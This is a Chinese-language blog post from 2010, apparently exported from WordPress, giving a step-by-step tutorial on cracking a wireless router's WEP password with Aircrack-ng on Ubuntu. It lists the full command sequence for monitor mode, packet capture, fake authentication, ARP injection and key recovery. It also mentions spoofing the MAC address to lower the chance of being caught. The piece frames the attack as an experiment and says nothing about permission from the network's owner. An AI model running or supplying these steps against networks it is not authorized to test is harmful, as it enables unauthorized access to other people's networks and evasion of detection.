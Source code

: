 ```yaml
---
author: admin
comments: true
date: 2010-06-14 03:06:56
layout: post
slug: ubuntu10-04-aircrack-ng-hack-wiless-router
title: ubuntu10.04 下使用Aircrack-ng破解无线路由AP密码
wordpress_id: 617
categories:
- ubuntu
- 问题解决
---
```


	一:工具介绍

	 无线路由破解工具 Aircrack-ng ，官方网站_[http://www.aircrack-ng](http://www.aircrack-ng/)[ .org](http://www.aircrack-ng .org)_

> 
	
> 
> 
		 Aircrack-ng工具包有很多工具，工具主要有以下几个：
	
> 
> 
	
> 
> 
		 airmon-ng 处理网卡工作模式  

		 airodump-ng 抓包  

		 aircrack-ng 破解  

		 aireplay-ng 发包，干扰  
	
> 
> 

	<!-- more -->  

	 每个工具的具体参数选项就不一一介绍了,详情请参考原作者:[here](http://blog.csdn.net/MHY_MHY/archive/2008/11/07/3244543.aspx)

	 其他必须的linux命令

> 
	
> 
> 
		 ifconfig 查看网卡状态及参数
	
> 
> 
	
> 
> 
		 macchanger 伪造 MAC  

		 iwconfig 主要针对无线网卡的工具 (同 ifconfig)  

		 iwlist 获取无线网络的更详细信息
	
> 
> 

	二: 前期准备

	 安装工具包: 

	 sudo apt-get install aircrack-ng

	 确保自己的无线网卡已经打开

	 ifconfig 显示无线网卡的MAC地址,记下以便日后使用

	三:大致步骤描述

	 1. 修改无线网卡状态：先 down 掉

	 2. 伪造无线网卡的 MAC 地址：安全起见，减少被抓到的可能

	 3. 修改网卡工作模式：进入Monitor状态，会产生一个虚拟的网卡

	 4. 修改无线网卡状态： up

	 5. 查看网络状态，记录下 AP 的 MAC 和本机的 MAC ，确定攻击目标

	 6. 监听抓包：生成 .cap 或 .ivs

	 7. 干扰无线网络：截取无线数据包，发送垃圾数据包，用来获得更多的有效数据包

	 8. 破解 .cap 或 .ivs ，获得 WEP 密码，完成破解

	 改变MAC地址请参考:[here](http://www.path8.net/tn/archives/40)

	四:具体实践操作

	 1将无线网卡down掉

> 
	
> 
> 
		 sudo ifconfig wlan0 down 
	
> 
> 

	 2 鉴于是实验,也就是折腾,不打算很邪恶,就没有做三.2这一步,这样以来第一步没有多大必要

	 3启动无线 网卡 的监控模式

> 
	
> 
> 
		 sudo airmon-ng start wlan0 
	
> 
> 

	 4查看采用wep 加密的在线AP,ctrl+c退出,保留此终端

> 
	
> 
> 
		 sudo airodump-ng mon0 
	
> 
> 

	 5 打开另一个终端,输入以下命令.c后面的6为AP工作频道,替换为要破解的AP相应的工作频道即可.--bissid后面的AP's MAC 是要欲破解AP的MAC地址,也做相应替换,-w后的wep的是抓下来的数据包DATA 保存的文件名(可以随便取名)，然后回车开始抓包

> 
	
> 
> 
		 sudo airodump-ng -c 6 --bssid AP's MAC -w wep mon0 
	
> 
> 

	 6 再另开一个终端，输入以下命令.ESSID替换为要破解的AP相应的ESSID,AP's MAC也做相应的替换,My MAC是自己的无线网卡的地址.此步骤用来AP建立虚拟连接.

> 
	
> 
> 
		 sudo aireplay-ng -1 0 -e ESSID -a AP's MAC -h My MAC mon0
	
> 
> 

	 7 再打开一个终端,输入以下命令.在6步骤建立虚拟连接成功后,进行注入.同理AP's MAC和My MAC也应该做相应的替换.现在步骤3中数据包应该不断增长。

> 
	
> 
> 
		 sudo aireplay-ng -2 -F -p 0841 -c ff:ff:ff:ff:ff:ff -b AP's MAC -h My MAC mon0
	
> 
> 

	 8收集有5000个以上的DATA之后,另开一个终端 ,输入以下命令.进行解密(如果没算出来的话，继续等，Ubuntu aircrack-ng会在DATA每增加多5000个之后就自动再运行 ，直到算出密码为至)

> 
	
> 
> 
		 sudo aircrack-ng wep*.cap
	
> 
> 

	 9 如果没有出现意外，你应该会很高兴的看到KEY FOUND!破解出密码后在终端中输入 sudo airmon-ng stop mon0 关闭监控模式，不然无线网卡会一直向刚刚的AP进行注入的，用ctrl+c退出或者直接关闭终端都是不行的，除非重新启动电脑。

	 参考帖子: [http://hi.baidu.com/jasey_wang/blog/item/a48a4bb6b3322df931add1cc.html](http://hi.baidu.com/jasey_wang/blog/item/a48a4bb6b3322df931add1cc.html)

	 原帖:[http://blog.csdn.net/MHY_MHY/archive/2008/11/07/3244543.aspx](http://blog.csdn.net/MHY_MHY/archive/2008/11/07/3244543.aspx) 

	引用请注明作者和来源,鄙视抄袭冒充。本文原创（技术说明文档由本人参照英文原文翻译）,作者:MHY_MHY, email:mayc66@gmail.com,欢迎指出错误.最初发表在 [http://blog.csdn.net/mhy_mhy](http://blog.csdn.net/mhy_mhy) ,最后修改17:00 2008/11/6。

